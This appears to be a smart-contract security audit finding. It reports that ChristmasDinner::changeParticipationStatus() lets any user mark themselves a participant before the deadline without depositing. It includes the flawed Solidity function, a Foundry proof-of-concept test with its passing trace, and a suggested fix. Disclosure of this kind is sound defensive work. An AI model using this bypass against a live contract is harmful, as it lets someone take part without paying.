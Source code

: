 ### Vulnerability Details
Users who have not deposit before will always return false when you call participant[msg.sender]. Hence, the function `ChristmasDinner::changeParticipationStatus()` allows any users to change their status to true before deadline.
```
function changeParticipationStatus() external {
        if(participant[msg.sender]) {
            participant[msg.sender] = false;
        } else if(!participant[msg.sender] && block.timestamp <= deadline) {
            participant[msg.sender] = true;
        } else {
            revert BeyondDeadline();
        }
        emit ChangedParticipation(msg.sender, participant[msg.sender]);
    }
```

### Impact/Proof of Concept
```
function testParticipateByChangingStatus() public {
        vm.startPrank(user1);
        // Without depositing any tokens or ether, just call changeParticipationStatus() before deadline
        cd.changeParticipationStatus();

        assertEq(cd.getParticipationStatus(user1), true, "User1 is not participant");
    }
```
Results
```diff
[PASS] testParticipateByChangingStatus() (gas: 39020)
Traces:
  [39020] CDTest::testParticipateByChangingStatus()
    ├─ [0] VM::startPrank(user1: [0x29E3b139f4393aDda86303fcdAa35F60Bb7092bF])
    │   └─ ← [Return] 
    ├─ [26604] ChristmasDinner::changeParticipationStatus()
    │   ├─ emit ChangedParticipation(: user1: [0x29E3b139f4393aDda86303fcdAa35F60Bb7092bF], : true)
    │   └─ ← [Stop] 
    ├─ [638] ChristmasDinner::getParticipationStatus(user1: [0x29E3b139f4393aDda86303fcdAa35F60Bb7092bF]) [staticcall]
    │   └─ ← [Return] true
    ├─ [0] VM::assertEq(true, true, "User1 is not participant") [staticcall]
    │   └─ ← [Return] 
    └─ ← [Stop] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 3.19s (862.87µs CPU time)
```

### Recommendations
Add a mapping to track who are the users that have deposit before. Then check if the user exist before changing participant status.
